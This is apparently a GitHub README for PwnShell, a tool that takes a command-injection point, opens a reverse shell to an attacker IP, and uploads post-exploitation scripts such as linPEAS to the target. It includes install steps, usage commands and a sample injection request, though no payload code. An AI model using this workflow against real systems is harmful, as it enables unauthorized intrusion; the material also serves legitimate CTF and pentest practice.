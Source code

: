 

# PwnShell

### PwnShell is a tool that will help you get a reverse shell and upload post-exploitation scripts to target machine instead of wasting your time with this regular ctf stuff... just confirm the injection point and feed it to this dumb tool.
<details>
    <ol>
    <li><div>Bruteforces the Vulnerable Parameter</div></li>
    <li><div>Recieve and Handle the Connection</div></li>
    <li><div>Downloads Post exploitation scripts from their Repos.</div></li>
    <li><div>Uploads them to target</div></li>
    <li><div>Activates a TTY shell using Python3 </div></li>
    <li><div>Enjoy!</div></li>
  </ol>
</details>

![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/PwnShell.png)

## Navigation:
   <ol>
    <li><a href="#installation">Installation</a></li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>

## Installation:

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   cd PwnShell/
   pip3 install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   chmod +x pwnshell.py
   ```

<!-- USAGE EXAMPLES -->
## Usage:
### Request-File Method [Recommended] 👇
```sh
./pwnshell.py -i [Attacker-IP] -f [REQUEST FILE] -s (To use https prefix)
```
#### Example:
- Copy from Burp or Network tab

- Replace the Vulnerable place in the parameter with 'PWNME'
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### URL Method 👇
```sh
./pwnshell.py -i [Attacker-IP] -p [Attacker-Port] -u [TARGET-URL] -m [REQUEST-METHOD] -c [COOKIES (optional)] -H [HEADERS (optional)]

#Note: Cookie and headers must be in JSON format (if provided).
   ```
```sh
./pwnshell.py -i [Attacker-IP] -u http/s://<TARGET>/vulnerable.php?cmd=PWNME --method GET --cookies '{"key" : "value"}' 
```
#### Example:
-Replace the Vulnerable place in the parameter with 'PWNME'
```sh

./pwnshell.py -H 127.0.0.1 -u http://10.10.10.10/vulnerable.php?cmd=PWNME
```

## Preview:
### Using [Request-File Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/requestfile-demo.gif)

### Using [URL Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/url-demo.gif)


<!-- CONTACT -->
## Contact:

**Zeyad AbuQasem** - [LinkedIn](https://www.linkedin.com/in/zeyad-abuqasem/)

**Omar Albalouli** - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/) & [Github](https://github.com/omaralbalolly)

<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements:
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)
